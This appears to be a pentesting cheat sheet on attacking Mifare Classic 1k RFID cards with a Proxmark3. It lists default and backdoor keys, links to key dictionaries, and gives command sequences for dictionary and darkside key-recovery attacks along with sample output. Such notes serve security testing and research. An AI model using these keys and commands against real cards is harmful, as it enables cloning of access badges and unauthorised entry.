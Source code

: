 # HF - Mifare Classic

## HF - Mifare Classic 1k

New method for Proxmark : `hf mf autopwn`


### Dictionary attack

Common keys to try against the card when attempting a dictionnary attack.

| Key | Description |
| ---- | ---- |  
| FFFFFFFFFFFF | Default key | 
| 000000000000 | Blank key | 
| A396EFA4E24F | FM11RF08S universal backdoor key | 
| A31667A8CEC1 | FM11RF08 older backdoor key | 

More keys and dictionnaries can be found at the following links:

* [RfidResearchGroup/proxmark3/dictionaries](https://github.com/RfidResearchGroup/proxmark3/tree/master/client/dictionaries)
* [ikarus23/MifareClassicTool/std.keys](https://github.com/ikarus23/MifareClassicTool/blob/master/Mifare%20Classic%20Tool/app/src/main/assets/key-files/std.keys)
* [ikarus23/MifareClassicTool/extended-std.keys](https://github.com/ikarus23/MifareClassicTool/blob/master/Mifare%20Classic%20Tool/app/src/main/assets/key-files/extended-std.keys)

```powershell
hf mf chk *1 ? t # Default keys
hf mf chk *1 ? d default_keys.dic
hf mf chk 0 A default_keys.dic # Dictionary attack with file: default_keys.dic
```


### Darkside attack (PRNG Weak)

**Proxmark method**

```powershell
pm3> hf search
pm3> hf mfu
pm3> hf mf darkside  (fork command)
pm3> hf mf mifare    (original command)
Parity is all zero. Most likely this card sends NACK on every failed authentication. # Card is empty...
or
Found valid key:ffffffffffff # KEY_FOUND

pm3> hf mf chk 0 A KEY_FOUND    (Check Found Key On Block 0 A)
```
